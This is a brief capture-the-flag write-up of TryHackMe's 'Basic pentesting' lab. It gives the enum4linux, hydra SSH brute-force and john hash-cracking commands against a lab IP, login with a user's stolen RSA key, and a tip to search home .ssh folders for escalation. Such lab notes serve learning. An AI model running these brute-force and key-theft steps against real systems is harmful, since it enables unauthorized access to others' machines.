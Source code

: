 # Basic pentesting 🧭
Names | Details
--------|-----
Source | Tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- enum4linux
- bruteforce with hydra using rockyou.txt



## Maintaining Access 🥷
- Got RSA key from user.
	- logged within host


## Important commands 🔥
- enum4linux -a  
- hydra -L /home/nms/Desktop/word -P /usr/share/wordlists/rockyou.txt ssh://10.10.99.93  
-  john --wordlist=/usr/share/wordlists/rockyou.txt hh.hash  



```ssh
ssh -i /home/kay/.ssh/id\_rsa kay@10.10.99.93
```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- enumerate linux machines using enum4linux
- search for .ssh in home directory of any user for privilege escalation

--------------------------------
**By Nibras Muhammed** 🤓🖥️






